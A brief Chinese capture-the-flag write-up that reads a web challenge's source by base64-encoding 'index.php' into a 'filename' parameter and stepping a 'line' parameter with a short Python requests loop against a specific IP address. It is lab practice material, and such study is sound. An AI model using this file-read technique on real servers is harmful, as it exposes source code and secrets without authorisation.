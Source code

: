 # No.3 Python爬取数据

1、查看解题地址：

![在这里插入图片描述](img/d628df7a83a6a1b91159f6d20c7a5c5a.png)2、将疑似 base64 编码的 filename 进行转码，为 keys.txt：

![在这里插入图片描述](img/4041975aaa1e9d6054c20f9106ebf45e.png)
3、尝试用修改参数 filename 的值为 index.php（注意此处要用base64加密为`aW5kZXgucGhw`），发现参数 line 没有给值，随意赋值如1、2、3，发现依次返回网页源码行：

![在这里插入图片描述](img/0439760271b88055cfba3dfa0959cfb3.png)
4、写脚本抓原代码，先试一下有多少行，100，50，25，20都无回显，大约定在20行，脚本如下：

```
import requests
import re

for i in range(1,20):
    url="http://123.206.87.240:8002/web11/index.php?line="+str(i)+"&filename=aW5kZXgucGhw"
    s=requests.get(url)
    print(s.text) 
```
